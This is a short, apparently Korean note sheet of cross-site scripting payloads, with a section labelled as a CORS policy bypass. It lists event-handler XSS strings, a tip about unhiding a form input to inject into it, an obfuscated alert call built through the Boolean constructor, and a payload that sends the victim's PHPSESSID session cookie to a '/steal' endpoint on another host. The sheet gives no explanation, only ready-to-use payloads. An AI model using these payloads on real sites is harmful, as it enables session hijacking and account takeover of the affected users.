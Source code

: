 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
  

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

;Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();
